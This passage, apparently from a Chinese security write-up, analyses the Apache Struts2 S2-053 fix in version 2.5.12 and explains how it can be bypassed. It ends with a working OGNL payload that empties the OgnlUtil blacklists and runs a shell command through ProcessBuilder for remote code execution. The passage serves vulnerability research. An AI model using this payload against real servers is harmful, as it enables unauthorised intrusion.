 <img src="pic/struts2_s2-053_1.png">

## 漏洞修复

通过版本代码比对发现，Struts2 `2.5.12`版本做了很多改动。但通过调试发现，针对这个漏洞，最关键的修复代码在于将`OgnlUtil`类里的黑名单集合`excludedPackageNames`和`excludedClasses`都由原来的`HashSet`改为不可修改的集合类`Collections$UnmodifiableSet`来替代，从而使得S2-045的exploit失效了。
如下图所示：

<img src="pic/struts2_s2-053_9.png">

**但！很遗憾**，这个修复可以被轻易绕过，因为修复后的代码中，`OgnlUtil`类里的`excludedPackageNames`和`excludedClasses`属性，只是它引用的集合对象是一个不可修改的对象，故可通过它们的`setter`方法，将其引用到一个空集合对象即可。

这里直接放结论：将在上面的可回显PoC稍加修改，然后**连续执行两次**，便可在修复后的Struts2 `2.5.12`版本getshell！至于为什么需要执行两次才行，这个留到分析S2-057漏洞时再好好说道。
修改后的PoC如下：

```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.setExcludedPackageNames('')).
		(#ognlUtil.setExcludedClasses('')).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```